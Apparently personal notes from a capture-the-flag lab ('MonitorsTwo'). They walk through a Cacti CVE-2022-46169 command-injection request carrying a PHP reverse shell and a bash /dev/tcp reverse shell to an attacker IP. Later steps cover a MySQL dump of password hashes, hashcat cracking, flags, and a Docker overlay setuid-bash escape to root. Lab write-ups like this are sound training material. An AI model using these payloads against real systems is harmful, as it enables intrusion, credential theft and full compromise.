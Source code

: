 # 1
using the exploit through burp, the URI which worked and the IDs are as following:

```
GET /remote_agent.php?action=polldata&poller_id=;php+-r+'$sock%3dfsockopen("10.10.16.31",4444)%3bexec("/bin/sh+-i+<%263+>%263+2>%263")%3b'&host_id=1&local_data_ids[]=6 HTTP/1.1
X-Forwarded-For: 127.0.0.1
Host: 10.10.11.211
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: CactiDateTime=Sun May 07 2023 00:51:52 GMT-0400 (Eastern Daylight Time); CactiTimeZone=-240; Cacti=55696af5e18420ea82ad5d1ee5501ee2
Upgrade-Insecure-Requests: 1

```
![[monitorstwo reverse shell burp.png]]

**1** and **6**
https://github.com/0xf4n9x/CVE-2022-46169

# 2
`bash -p` euid of root
`capsh --gid=0 --uid=0 --` gid + uid of root

# 3
`bash -c 'exec bash -i &>/dev/tcp/10.10.16.31/2222 <&1'` --> gave an upgraded shell as root (still no flags as in the container not on the system)

# 4
` mysql --host=db --user=root --password=root cacti -e 'select * from user_auth'` Gave more results of 2 users with passwords to hash:
admin:$2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC (Jamie Thompson)
guest:43e9a4ab75570f5b (Guest Account)
marcus:$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C (Marcus Brune)
![[monitorstwo database user_auth dump.png]]

# 5 
crack the hash(es) + ssh in
`hashcat -m 3200 -a 0 hashes ../../../Tools/rockyou.txt`
marcus:funkymonkey
user flag:
914c47f4f02b7c6563026aa62f8ceba2
![[monitortwo password cracked .png]]
+log in through SSH:
![[monitorwtwo - user flag.png]]


# 6 
enumeration # 2
A. linpeas
-rw-r--r-- 1 root root 2133 Feb 26  2020 /etc/pam.d/sshd
-rwxr-xr-x   1 root root  813 Feb 25  2020 man-db

DOCKER!
![[monitortwo docker process.png]]
/usr/bin/ctr (ctr privesc) + /opt/containerd
/usr/bin/runc (runc privesc)
/usr/share/cacti

.sh files
/usr/bin/gettext.sh                      
/usr/bin/rescan-scsi-bus.sh

root files in home directory
/home/marcus/.bash_history

unusual passwd files
passwd file: /usr/share/bash-completion/completions/passwd
passwd file: /usr/share/lintian/overrides/passwd

/sys/fs/cgroup/unified/user.slice/user-1000.slice/user@1000.service (replace unified with systemd too)

mails
/var/mail/marcus 
/var/spool/mail/marcus

THERE is one namespace with two container IDs:
e2378324fced58e8166b82ec842ae45961417b4195aade5113fdc9c6397edc69
50bca5e748b0e547d000ecb8a4f889ee644a92f743e129e52f7a37af6c62e51e


# 7 
privesc
The key was to use both the root shell of the containered instance, as well as the ssh instance
1. `findmnt` in ssh instance as Marcus
![[monitortwo - findmnt.png]]
2. `chmod u+s` in root container instance achieved with the following steps:
        a. `capsh --gid=0 --uid=0 --`
        b. `bash -c 'exec bash -i &>/dev/tcp/10.10.16.31/2222 <&1'`
        c. (set up listener and get root container shell for execution of command in step 2)
3. `/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/bin/bash -p` use the right _merged_ container from the results from step 1 (were two possible ones) and access an escalated bash shell 


![[monitorstwo - root flag.png]]

--> all flags available
root flag: 1580d59141662e21dd3a1fd4def08cc6
https://exploit-notes.hdks.org/exploit/container/docker/moby-docker-engine-privesc/
